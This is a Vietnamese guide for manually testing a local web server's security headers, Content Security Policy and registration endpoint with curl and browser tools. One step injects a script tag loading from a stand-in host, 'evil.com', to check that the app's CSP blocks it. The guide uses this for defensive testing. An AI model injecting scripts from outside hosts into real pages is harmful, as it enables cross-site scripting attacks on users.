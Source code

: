 # Hướng dẫn Test Bảo mật Thủ công

## Chuẩn bị

### 1. Khởi động server

```bash
npm run dev
```

### 2. Cài đặt Postman hoặc sử dụng curl/Thunder Client

- **Postman**: Import collection từ file `test/postman-collection.json`
- **Thunder Client**: Extension cho VS Code
- **curl**: Sử dụng command line

## Test 1: HTTP Security Headers

### Kiểm tra Headers

```bash
curl -I http://localhost:4000/health
```

**Kết quả mong đợi:**

- ❌ Không có `X-Powered-By` header
- ✅ Có `Content-Security-Policy` header
- ✅ Có `X-Frame-Options` header
- ✅ Có `Strict-Transport-Security` header (nếu HTTPS)

### Test CSP (Content Security Policy)

1. Mở Developer Tools (F12)
2. Vào Console tab
3. Thử inject script: `document.createElement('script').src='http://evil.com'`
4. **Kết quả mong đợi**: CSP error trong console

## Test 2: Authentication Flow

### 2.1 Test Đăng ký

```bash
curl -X POST http://localhost:4000/api/auth/register \
  -H "Content-Type: application/json" \
  -d '{
    "fullName": "Test User",
    "email": "test@example.com",
    "password": "TestPass123",
    "phone": "0123456789"
  }'
```
